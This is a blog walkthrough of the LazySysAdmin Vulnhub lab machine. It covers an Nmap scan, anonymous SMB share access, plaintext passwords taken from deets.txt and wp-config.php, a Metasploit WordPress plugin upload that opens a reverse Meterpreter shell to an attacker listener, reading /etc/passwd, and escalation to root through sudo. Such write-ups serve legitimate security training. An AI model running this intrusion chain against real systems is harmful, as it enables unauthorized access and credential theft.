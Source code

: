 ```yaml
---
date: 2020-04-27 03:43:30
layout: post
title: "LazySysAdmin Vulnhub Walkthrough"
subtitle:
description: Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine configured by a lazy system administrator.
image: /assets/img/uploads/lazySysAdmin/lazy.jpg
optimized_image: /assets/img/uploads/lazySysAdmin/lazy.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: lazysysadmin walkthrough, vulnhub, lazysysadmin writeup, lazysysadmin vulnhub walkthrough, infosec articles
---
```


Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine created by 'Togie Mcdogie'. The machine truly stands up to its name. This machine was configured by a lazy system administrator and thus, one clear thing to be looking for is a misconfigured system. Let's dive in!

We begin our reconnaissance by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -sV -oA nmap/lazySysAdmin 192.168.1.9 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.0044s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
```

We see a mysql port open and Samba smd running on port 139 and 445. We also have a web server running at port 80.

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/port80.png">
</center>

Let's try gaining access to the samba and see if we can login anonymously. We will use <i>smbclient</i> for this. If it asks for any password, just leave it empty and press enter.

```r
m1m3@kali:~$ smbclient -L 192.168.1.9

Enter WORKGROUP\m1m3's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
SMB1 disabled -- no workgroup available
```

We can access the share$ folder using: 

```r
m1m3@kali:~$ smbclient  '\\192.168.1.9\share$'

Enter WORKGROUP\m1m3's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 16:35:52 2017
  ..                                  D        0  Mon Aug 14 18:04:47 2017
  wordpress                           D        0  Thu Apr 30 00:15:04 2020
  Backnode_files                      D        0  Mon Aug 14 17:38:26 2017
  wp                                  D        0  Tue Aug 15 16:21:23 2017
  deets.txt                           N      139  Mon Aug 14 17:50:05 2017
  robots.txt                          N       92  Mon Aug 14 18:06:14 2017
  todolist.txt                        N       79  Mon Aug 14 18:09:56 2017
  apache                              D        0  Mon Aug 14 18:05:19 2017
  index.html                          N    36072  Sun Aug  6 10:32:15 2017
  info.php                            N       20  Tue Aug 15 16:25:19 2017
  test                                D        0  Mon Aug 14 18:05:10 2017
  old                                 D        0  Mon Aug 14 18:05:13 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \> 
```

We see some interesting test files here, let's download them and see if they have anything useful.

```r
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (12.9 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> ^C

m1m3@kali:~$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

m1m3@kali:~$ cat todolist.txt 
Prevent users from being able to view to web root using the local file browser
m1m3@kali:~$ 
[1] 0:bash*                                                                                               
```

Awesome! <i>deets.txt</i> reveals a password 12345. Another thing now we can look at is the wordpress directory.

```r
smb: \> cd wordpress
smb: \wordpress\> ls
  .                                   D        0  Thu Apr 25 00:15:04 2020
  ..                                  D        0  Tue Aug 15 16:35:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 15:28:26 2015
  wp-trackback.php                    N     4513  Sat Oct 15 01:09:28 2016
  wp-admin                            D        0  Thu Aug  3 02:32:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 23:31:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 16:50:28 2015
  index.php                           N      418  Wed Sep 25 05:48:11 2013
  wp-cron.php                         N     3286  Sun May 24 22:56:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 08:16:30 2016
  readme.html                         N     7413  Mon Dec 12 13:31:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 16:38:42 2017
  wp-content                          D        0  Thu Apr 30 00:31:17 2020
  license.txt                         N    19935  Mon Jan  2 23:28:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 10:43:43 2017
  wp-activate.php                     N     5447  Wed Sep 28 03:06:28 2016
  .htaccess                           H       35  Tue Aug 15 17:10:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 22:01:29 2016
  wp-login.php                        N    34327  Fri May 12 22:42:46 2017
  wp-load.php                         N     3301  Tue Oct 25 08:45:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 17:30:32 2016
  wp-config.php                       N     3703  Mon Aug 21 14:55:14 2017
  wp-includes                         D        0  Thu Aug  3 02:32:03 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \wordpress\> 
```
 Looking into the wp-config, we get some username and password.

```r
 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

We can use these to login into the wp-admin

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD TogieMYSQL12345^^
PASSWORD => TogieMYSQL12345^^
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/nqVodSMHuP/rimGsZTjkk.php...
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.9:45938)
[+] Deleted rimGsZTjkk.php
[+] Deleted nqVodSMHuP.php
[+] Deleted ../nqVodSMHuP

meterpreter > shell
Process 1697 created.
Channel 0 created.
id       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@LazySysAdmin:$
```

Looking into the /etc/passwd, we can see a user named  <i>togie</i>

```r
www-data@LazySysAdmin:$ cat /etc/passwd
cat /etc/passwd

togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash

www-data@LazySysAdmin:$ 
```

This will be our way In!  We can now ssh into the user or simply use <i>su</i> to login with the password we got from <i>deets.txt.</i> 

```r
www-data@LazySysAdmin:$ su togie
su togie
Password: 12345
togie@LazySysAdmin:$ id
id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:$ 
```

We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su </i> to get the root shell.

```r
togie@LazySysAdmin:$ sudo su
sudo su
[sudo] password for togie: 12345

root@LazySysAdmin:.# 
```

That's it! We rooted the box. Now we can read our flag.

```r
root@LazySysAdmin:.# cat /root/proof.txt/
cat /root/proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

root@LazySysAdmin:.# 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Jothon">Joshua Anderson.</a>